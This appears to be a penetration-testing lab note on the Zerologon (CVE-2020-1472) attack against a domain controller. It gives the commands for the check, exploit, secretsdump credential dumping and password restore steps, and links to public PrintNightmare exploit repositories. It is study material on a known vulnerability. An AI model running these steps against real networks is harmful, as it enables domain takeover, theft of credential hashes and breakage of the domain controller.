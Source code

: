 Zerologon is a very dangerous attack. Basically we're attacking the DC, setting the password to null and then taking over it. The problem is, if we run this and we do not restore the password, it will break the DC.

Please use it at your own risk. I do not condone any malicious attacks on anyone! 

What is ZeroLogon: [https://www.trendmicro.com/en_us/what-is/zerologon.html](https://www.trendmicro.com/en_us/what-is/zerologon.html)

dirkjanm CVE-2020-1472: 
https://github.com/dirkjanm/CVE-2020-1472

First, we will run the Zerologon checker script on the domain controller to see if we can run zerologon on it. 

```bash
python3 zerologon_check.py <Name_of_DC> <IP_Address>
```

Then we run the cve exploit script instead of the zerologon script with the same inputs.

Then run secretsdump on this:

```bash
secretsdump.py -just-dc MARVEL/HYDRA-DC\$<ip>
```

To restore this, we need to copy the administrator hash, then do another secretsdump:

```bash
secretsdump.py administrator@<ip> -hashes <hash>
```

We are then looking for a plain password hex. This is what we'll be using to restore the domain.

Then we run the restoring script:

```bash
python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip <ip> -hexpass <plain_password_hex>
```

Links:

cube0x0 RCE: 
https://github.com/cube0x0/CVE-2021-1675

calebstewart LPE:
https://github.com/calebstewart/CVE-2021-1675